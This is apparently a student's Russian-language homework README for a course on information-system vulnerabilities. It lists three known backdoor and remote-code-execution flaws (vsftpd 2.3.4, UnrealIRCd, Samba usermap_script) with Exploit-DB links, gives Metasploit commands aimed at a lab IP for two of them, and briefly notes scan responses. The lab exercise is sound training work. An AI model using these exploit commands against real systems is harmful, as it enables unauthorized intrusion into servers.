

# Домашнее задание к занятию "`Уязвимости и атаки на информационные системы`" - `Петровский Дмитрий`

### Инструкция по выполнению домашнего задания

   1. Сделайте `fork` данного репозитория к себе в Github и переименуйте его по названию или номеру занятия, например, https://github.com/имя-вашего-репозитория/git-hw или  https://github.com/имя-вашего-репозитория/7-1-ansible-hw).
   2. Выполните клонирование данного репозитория к себе на ПК с помощью команды `git clone`.
   3. Выполните домашнее задание и заполните у себя локально этот файл README.md:
      - впишите вверху название занятия и вашу фамилию и имя
      - в каждом задании добавьте решение в требуемом виде (текст/код/скриншоты/ссылка)
      - для корректного добавления скриншотов воспользуйтесь [инструкцией "Как вставить скриншот в шаблон с решением](https://github.com/netology-code/sys-pattern-homework/blob/main/screen-instruction.md)
      - при оформлении используйте возможности языка разметки md (коротко об этом можно посмотреть в [инструкции  по MarkDown](https://github.com/netology-code/sys-pattern-homework/blob/main/md-instruction.md))
   4. После завершения работы над домашним заданием сделайте коммит (`git commit -m "comment"`) и отправьте его на Github (`git push origin`);
   5. Для проверки домашнего задания преподавателем в личном кабинете прикрепите и отправьте ссылку на решение в виде md-файла в вашем Github.
   6. Любые вопросы по выполнению заданий спрашивайте в чате учебной группы и/или в разделе “Вопросы по заданию” в личном кабинете.
   
Желаем успехов в выполнении домашнего задания!
   
### Дополнительные материалы, которые могут быть полезны для выполнения задания

1. [Руководство по оформлению Markdown файлов](https://gist.github.com/Jekins/2bf2d0638163f1294637#Code)

---

### Задание 1

1. vsftpd 2.3.4 – Backdoor Command Execution (CVE-2011-2523)
Описание: В этой версии VSFTPD есть бэкдор, позволяющий злоумышленнику получить shell на сервере, отправив специальную последовательность символов в поле имени пользователя.

Exploit-DB: https://www.exploit-db.com/exploits/17491

Команда для эксплуатации (в Metasploit):

msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.130.70
exploit
2. UnrealIRCd 3.2.8.1 – Backdoor (CVE-2010-2075)
Описание: В некоторых сборках UnrealIRCd был встроен бэкдор, позволяющий выполнить произвольные команды.

Exploit-DB: https://www.exploit-db.com/exploits/16922

3. Samba (usermap_script) – RCE (CVE-2007-2447)
Описание: Уязвимость в Samba позволяет выполнить код через неправильную обработку скриптов в smb.conf.

Exploit-DB: https://www.exploit-db.com/exploits/16320

msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.130.70
exploit

---

### Задание 2

1. Чем отличаются режимы сканирования?

| Заголовок | |
| --------------------- | -------------------------- |
| Строка 1, столбец 1 | Строка 1, столбец 2 |

2. Как отвечает сервер?
SYN: Открытый порт → SYN-ACK, закрытый → RST.

FIN/Xmas: Открытый порт → молчит, закрытый → RST.

UDP: Открытый порт → молчит или данные сервиса, закрытый → ICMP Port Unreachable.